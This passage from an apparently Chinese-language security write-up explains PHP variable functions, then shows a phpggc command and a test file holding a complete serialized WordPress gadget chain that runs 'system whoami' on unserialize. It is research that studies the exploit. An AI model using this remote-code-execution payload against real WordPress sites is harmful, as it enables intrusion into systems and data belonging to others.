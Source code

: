 ```bash
<?php
    class hello{
        public function aaa(){
            echo "hello!";
        }
    }
    $hello = new hello();
    [$hello,"aaa"]();
?>
```

这样能够成功执行 hello 中的 aaa 方法，这在 CTF 中经常出现

**可变函数**：可变函数（Variable Functions）是一种特殊的语法，允许通过变量来调用函数。这意味着函数名可以存储在一个变量中，并在需要时通过该变量动态调用函数。

## 测试

**payload 生成**：

使用 phpggc 生成：

```bash
php phpggc WordPress/RCE1 system whoami -u
```

[![](assets/1707953698-d8e292fba181925a457fe091de1101e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208122857-933a861a-c63a-1.png)

**测试文件**：

```bash
<?php
require_once __DIR__.'/wp-load.php';
wp();
$str = "O%3A8%3A%22WP_Theme%22%3A2%3A%7Bs%3A7%3A%22headers%22%3BO%3A13%3A%22WP_Block_List%22%3A2%3A%7Bs%3A6%3A%22blocks%22%3Ba%3A1%3A%7Bs%3A4%3A%22Name%22%3Ba%3A1%3A%7Bs%3A9%3A%22blockName%22%3Bs%3A12%3A%22Parent+Theme%22%3B%7D%7Ds%3A8%3A%22registry%22%3BO%3A22%3A%22WP_Block_Type_Registry%22%3A1%3A%7Bs%3A22%3A%22registered_block_types%22%3BO%3A8%3A%22WP_Theme%22%3A2%3A%7Bs%3A7%3A%22headers%22%3BN%3Bs%3A6%3A%22parent%22%3BO%3A22%3A%22WpOrg%5CRequests%5CSession%22%3A3%3A%7Bs%3A3%3A%22url%22%3Bs%3A10%3A%22http%3A%2F%2Fp%3A0%22%3Bs%3A7%3A%22headers%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7Ds%3A7%3A%22options%22%3Ba%3A1%3A%7Bs%3A5%3A%22hooks%22%3BO%3A20%3A%22WpOrg%5CRequests%5CHooks%22%3A1%3A%7Bs%3A5%3A%22hooks%22%3Ba%3A1%3A%7Bs%3A23%3A%22requests.before_request%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BO%3A20%3A%22WpOrg%5CRequests%5CHooks%22%3A1%3A%7Bs%3A5%3A%22hooks%22%3Ba%3A1%3A%7Bs%3A15%3A%22http%3A%2F%2Fp%3A0%2FName%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7D%7D%7Di%3A1%3Bs%3A8%3A%22dispatch%22%3B%7D%7D%7D%7D%7D%7D%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BN%3B%7D";
$obj = unserialize(urldecode($str));
echo $obj;
?>
```
